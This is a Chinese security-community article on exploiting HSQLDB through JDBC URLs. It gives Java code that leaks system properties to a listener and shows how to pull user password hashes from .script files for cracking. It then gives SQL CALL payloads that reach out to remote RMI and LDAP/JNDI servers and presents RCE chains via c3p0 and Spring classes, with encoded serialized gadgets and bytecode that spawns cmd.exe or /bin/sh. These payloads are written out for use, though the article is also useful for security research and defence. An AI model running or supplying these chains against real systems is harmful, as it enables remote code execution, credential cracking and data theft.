# 基于 hsqldb造成的 jdbc各种利用手法-先知社区

> **来源**: https://xz.aliyun.com/news/18806  
> **文章ID**: 18806

---

# 基于 hsqldb造成的 jdbc各种利用手法

## 前言

在 HSQLDB 中，我们可以通过 JDBC URL 的 `${}` 语法读取敏感信息。测试代码中，连接参数里直接包含 `${java.version}`，服务器接收请求后可以获取到我们的版本信息。原因在于解析 JDBC URL 的过程中，会调用 `System.getProperty` 获取变量值。

此外，HSQLDB 文件模式下生成的 `.script` 文件存储了数据库用户及 hash 加密的密码，我们可以尝试碰撞。更进一步，如果环境中存在 C3P0 或 Spring 依赖，通过 `initConnectionSqls` 等字段传入序列化数据，就可以触发二次反序列化，调用静态方法实现 RCE。

## 读取敏感信息

测试代码如下

```
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class HSQLDBConnection {
    public static void main(String[] args) {
        // 在代码中直接定义数据库连接参数
        String dbUrl = "jdbc:hsqldb:http://xxxx:2333/?aaa=${java.version}"; // 例如，文件模式数据库
        String user = "aaaa";  // 默认用户名
        String password = "123456"; // 默认无密码

        Connection connection = null;
        Statement statement = null;

        try {
            // 加载 HSQLDB 驱动
            Class.forName("org.hsqldb.jdbc.JDBCDriver");

            // 建立连接
            connection = DriverManager.getConnection(dbUrl, user, password);
            System.out.println("Connected to HSQLDB successfully!");

            // 创建 Statement 对象
            statement = connection.createStatement();

            // 执行查询
            ResultSet resultSet = statement.executeQuery("SELECT 1 FROM INFORMATION_SCHEMA.SYSTEM_USERS");
            while (resultSet.next()) {
                System.out.println("Query Result: " + resultSet.getInt(1));
            }

            resultSet.close();
        } catch (ClassNotFoundException e) {
            System.err.println("HSQLDB JDBC Driver not found!");
            e.printStackTrace();
        } catch (SQLException e) {
            System.err.println("SQL Exception: " + e.getMessage());
            e.printStackTrace();
        } finally {
            // 关闭资源
            try {
                if (statement != null) statement.close();
                if (connection != null) connection.close();
            } catch (SQLException e) {
                e.printStackTrace();
            }
        }
    }
}

```

首先服务器监听，然后运行我们的代码

```
root@hcss-ecs-0d0e:~# ncat -lvp 2333
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333
Ncat: Connection from 182.150.122.163.
Ncat: Connection from 182.150.122.163:29848.
POST /?aaa=11.0.22 HTTP/1.1
Content-Type: application/octet-stream
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/11.0.22
Host: xxxx:2333
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
Content-Length: 73

;
Asia/Shanghaip�aa123456
```

得到了我们的版本信息

**调试分析**

原因就在于解析我们的 jdbcurl 的过程中

获取到我们的 url 的时候还会解析其中的${}符号，而且会 System.getProperty 去获取信息

```
while (true) {
int replacePos = url.indexOf("${");

if (replacePos == -1) {
    break;
}

int endPos = url.indexOf("}", replacePos);

if (endPos == -1) {
    break;
}

String varName  = url.substring(replacePos + 2, endPos);
String varValue = null;

try {
    varValue = System.getProperty(varName);
} catch (SecurityException e) {}

if (varValue == null) {
    break;
}
```

## 写入文件

HSQLDB（HyperSQL Database）支持多种运行模式，其中文件模式（File Mode） 主要用于持久化存储，它会将数据以文件形式存储在指定的目录下。

HSQLDB 在文件模式下会创建多个文件：

.script：SQL 语句存储表结构和数据

.log：事务日志文件

.properties：数据库配置文件

.data（可选）：二进制存储表数据

需要使用 file: 作为 URL 前缀

```
jdbc:hsqldb:file:/path/to/database
```

测试代码

```
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class HSQLDBConnection {
    public static void main(String[] args) {
        // 在代码中直接定义数据库连接参数
        String dbUrl = "jdbc:hsqldb:file:C:/Users/xxx/Downloads/1"; // 例如，文件模式数据库
        String user = "aaaa";  // 默认用户名
        String password = "123456"; // 默认无密码

        Connection connection = null;
        Statement statement = null;

        try {
            // 加载 HSQLDB 驱动
            Class.forName("org.hsqldb.jdbc.JDBCDriver");

            // 建立连接
            connection = DriverManager.getConnection(dbUrl, user, password);
            System.out.println("Connected to HSQLDB successfully!");

            // 创建 Statement 对象
            statement = connection.createStatement();

            // 执行查询
            ResultSet resultSet = statement.executeQuery("SELECT 1 FROM INFORMATION_SCHEMA.SYSTEM_USERS");
            while (resultSet.next()) {
                System.out.println("Query Result: " + resultSet.getInt(1));
            }

            resultSet.close();
        } catch (ClassNotFoundException e) {
            System.err.println("HSQLDB JDBC Driver not found!");
            e.printStackTrace();
        } catch (SQLException e) {
            System.err.println("SQL Exception: " + e.getMessage());
            e.printStackTrace();
        } finally {
            // 关闭资源
            try {
                if (statement != null) statement.close();
                if (connection != null) connection.close();
            } catch (SQLException e) {
                e.printStackTrace();
            }
        }
    }
}

```

运行生成了我们的文件



在其中的 script 文件中

```
SET DATABASE UNIQUE NAME HSQLDB95D6C231F5
SET DATABASE GC 0
SET DATABASE DEFAULT RESULT MEMORY ROWS 0
SET DATABASE EVENT LOG LEVEL 0
SET DATABASE TRANSACTION CONTROL LOCKS
SET DATABASE DEFAULT ISOLATION LEVEL READ COMMITTED
SET DATABASE TRANSACTION ROLLBACK ON CONFLICT TRUE
SET DATABASE TEXT TABLE DEFAULTS ''
SET DATABASE SQL NAMES FALSE
SET DATABASE SQL REFERENCES FALSE
SET DATABASE SQL SIZE TRUE
SET DATABASE SQL TYPES FALSE
SET DATABASE SQL TDC DELETE TRUE
SET DATABASE SQL TDC UPDATE TRUE
SET DATABASE SQL CONCAT NULLS TRUE
SET DATABASE SQL UNIQUE NULLS TRUE
SET DATABASE SQL CONVERT TRUNCATE TRUE
SET DATABASE SQL AVG SCALE 0
SET DATABASE SQL DOUBLE NAN TRUE
SET FILES WRITE DELAY 500 MILLIS
SET FILES BACKUP INCREMENT TRUE
SET FILES CACHE SIZE 10000
SET FILES CACHE ROWS 50000
SET FILES SCALE 32
SET FILES LOB SCALE 32
SET FILES DEFRAG 0
SET FILES NIO TRUE
SET FILES NIO SIZE 256
SET FILES LOG TRUE
SET FILES LOG SIZE 50
CREATE USER "aaaa" PASSWORD DIGEST 'e10adc3949ba59abbe56e057f20f883e'
ALTER USER "aaaa" SET LOCAL TRUE
CREATE SCHEMA PUBLIC AUTHORIZATION DBA
ALTER SEQUENCE SYSTEM_LOBS.LOB_ID RESTART WITH 1
SET DATABASE DEFAULT INITIAL SCHEMA PUBLIC
GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.SQL_IDENTIFIER TO PUBLIC
GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.YES_OR_NO TO PUBLIC
GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.TIME_STAMP TO PUBLIC
GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.CARDINAL_NUMBER TO PUBLIC
GRANT USAGE ON DOMAIN INFORMATION_SCHEMA.CHARACTER_DATA TO PUBLIC
GRANT DBA TO "aaaa"
SET SCHEMA SYSTEM_LOBS
INSERT INTO BLOCKS VALUES(0,2147483647,0)

```

有 hash 加密的密码，我们可以碰撞



## 命令执行

这个就需要我们伪造恶意的服务端了，这里直接使用工具了

不过需要注意的限制就是只能调用静态方法

参考<https://xz.aliyun.com/news/8661?time__1311=Yq0x0DcGG%3DiQYGNqjxUxiq7Ku3wReeDgnioD&u_atoken=ba41b2d51712e5ad644d30d7010c9b64&u_asig=0a472f4317430635387382347e003d>

有三种方法去调用 java 代码

**自定义函数**

```
create function rce(VARCHAR(80))
    returns VARCHAR(80)
    no sql
    language java
    external name 'CLASSPATH:java.rmi.Naming.list'
;
CALL rce('rmi://xxx:2333/')
```

这里我们就直接拿最近的攻防赛的环境了



首先生成我们服务

然后去连接

```
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDI {
    public static void main(String[] args) throws NamingException {
        String jndi_uri = "ldap://127.0.0.1:50389/200421";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(jndi_uri);
    }
}
```

运行后远程服务器收到请求

```
root@hcss-ecs-0d0e:~# ncat -lvp 2333
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333
Ncat: Connection from 182.150.122.163.
Ncat: Connection from 182.150.122.163:29859.
JRMIK
```

**直接调用**

也差不多，而且还更方便

```
CALL "java.rmi.Naming.list"('rmi://127.0.0.1:2333/a')
```

修改一下起服务的地方



然后就是没有特别的

当然下面就是利于拓展了

### JNDI

也就是利用上面的方法，只需要加入一个恶意类就 ok 了

原理就是 javax.naming.InitialContext 类的 doLookup 方法为静态方法

```
public static <T> T doLookup(Name name)
    throws NamingException {
    return (T) (new InitialContext()).lookup(name);
}
```

这里使用工具起一个服务

```
F:\gj\jndi>java -jar jndimap.jar
[RMI] Listening on 127.0.0.1:1099
[HTTP] Listening on 127.0.0.1:3456
[LDAPS] jks file is not specified, skipping to start LDAPS server
[LDAP] Listening on 127.0.0.1:1389
```

然后因为环境中我这里是有 jackson 的依赖的，而且是 jdk11

所以需要高版本绕过一下



然后配置工具



ok 启动

```
public class JNDI {
    public static void main(String[] args) throws NamingException {
        String jndi_uri = "ldap://127.0.0.1:50389/e02db2";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(jndi_uri);
    }
}
```



收到请求



### 配合 c3p0 二次反序列化

如果环境存在依赖，我们还打二次反序列化

我们看到 C3P0ImplUtils 类

```
public static Map parseUserOverridesAsString( String userOverridesAsString ) throws IOException, ClassNotFoundException
   { 
if (userOverridesAsString != null)
    {
    String hexAscii = userOverridesAsString.substring(HASM_HEADER.length() + 1, userOverridesAsString.length() - 1);
    byte[] serBytes = ByteUtils.fromHexAscii( hexAscii );
    return Collections.unmodifiableMap( (Map) SerializableUtils.fromByteArray( serBytes ) );
    }
else
    return Collections.EMPTY_MAP;
   }
```

在 fromByteArray 方法

```
public static Object fromByteArray(byte[] bytes) throws IOException, ClassNotFoundException
   { 
Object out = deserializeFromByteArray( bytes ); 
if (out instanceof IndirectlySerialized)
    return ((IndirectlySerialized) out).getObject();
else
    return out;
   }
```

跟进 deserializeFromByteArray

```
public static Object deserializeFromByteArray(byte[] bytes) throws IOException, ClassNotFoundException
   {
ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(bytes));
return in.readObject();
   }
```

可以看到是有反序列化逻辑的

```
{java.lang.String@968} initConnectionSqls -> {java.lang.String@969} call "com.mchange.v2.c3p0.impl.C3P0ImplUtils.parseUserOverridesAsString"('HexAsciiSerializedMap:aced0005737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000c770800000010000000017xxxxxx')
```

在里面放入我们的恶意数据就 ok

当然还是使用 jackson 的原生链子



### 加载字节码 rce

如果我们还有 spring aop 的依赖

可以使用 ReflectUtils 类



可以加载字节码并且全是静态方法



```
{java.lang.String@968} initConnectionSqls -> {java.lang.String@969} call "org.springframework.util.ReflectUtils.defineClass"('org.apache.beanutils.coyote.cfg.PackageVersionb9725b0ff8d14efaaa3afa9bf95beaa7',"use org.springframework.util.Base64Utils.decodeFromString"('yv66vgAAADIAQAEATm9yZy9hcGFjaGUvYmVhbnV0aWxzL2NveW90ZS9jZmcvUGFja2FnZVZlcnNpb25iOTcyNWIwZmY4ZDE0ZWZhYWEzYWZhOWJmOTViZWFhNwcAAQEAEGphdmEvbGFuZy9PYmplY3QHAAMBAARiYXNlAQASTGphdmEvbGFuZy9TdHJpbmc7AQADc2VwAQADY21kAQAGPGluaXQ+AQADKClWAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcACwwACQAKCgAEAA0BAAdvcy5uYW1lCAAPAQAQamF2YS9sYW5nL1N5c3RlbQcAEQEAC2dldFByb3BlcnR5AQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsMABMAFAoAEgAVAQAQamF2YS9sYW5nL1N0cmluZwcAFwEAC3RvTG93ZXJDYXNlAQAUKClMamF2YS9sYW5nL1N0cmluZzsMABkAGgoAGAAbAQADd2luCAAdAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoMAB8AIAoAGAAhAQAHY21kLmV4ZQgAIwwABQAGCQACACUBAAIvYwgAJwwABwAGCQACACkBAAcvYmluL3NoCAArAQACLWMIAC0MAAgABgkAAgAvAQAYamF2YS9sYW5nL1Byb2Nlc3NCdWlsZGVyBwAxAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgwACQAzCgAyADQBAAVzdGFydAEAFSgpTGphdmEvbGFuZy9Qcm9jZXNzOw.....')
```



### 二次反序列化

使用 org.springframework.util.SerializationUtils 类

看到它的 deserialize 方法，也是一个静态方法

```
public static Object deserialize(@Nullable byte[] bytes) {
    if (bytes == null) {
        return null;
    } else {
        try {
            ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bytes));
            Throwable var2 = null;

            Object var3;
            try {
                var3 = ois.readObject();
            } catch (Throwable var14) {
                var2 = var14;
                throw var14;
            } finally {
                if (ois != null) {
                    if (var2 != null) {
                        try {
                            ois.close();
                        } catch (Throwable var13) {
                            var2.addSuppressed(var13);
                        }
                    } else {
                        ois.close();
                    }
                }
            }
            return var3;
        } catch (IOException var16) {
            throw new IllegalArgumentException("Failed to deserialize object", var16);
        } catch (ClassNotFoundException var17) {
            throw new IllegalStateException("Failed to deserialize object type", var17);
        }
    }
}
```

```
{java.lang.String@968} initConnectionSqls -> {java.lang.String@969} call "org.springframework.util.SerializationUtils.deserialize"(X'aced0005737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000c770800000010000000017372003a636f6d2e73756e2e6f72672e6170616368652e78616c616e2e696e7465726e616c2e78736c74632e747261782e54656d706c61746573496d706c09574fc16eacab3303000649000d5f696e64656e744e756d62657249000e5f7472616e736c6574496e6465785b000a5f62797465636f6465737400035b5b425b00065f636c6173737400125b4c6a6176612f6c616e672f436c6173733b4c00055f6e616d657400124c6a6176612f6c616e672f537472696e673b4c00115f6f757470757450726f706572746965737400164c6a6176612f7574696c2f50726f706572746965733b787000000000ffffffff757200035b5b424bfd19156767db37020000787000000001757200025b42acf317f8060854e00200007870000003bfcafebabe0000003200420100506f72672f6170616368652f6265616e7574696c732f636f796f74652f6e6f64652f4a736f6e4e6f646543726561746f726464326465643630353464633435363662343232313534306338326265666130070001010040636f6d2f')
```

和 c3p0 的有点像



参考<https://xz.aliyun.com/news/8661>
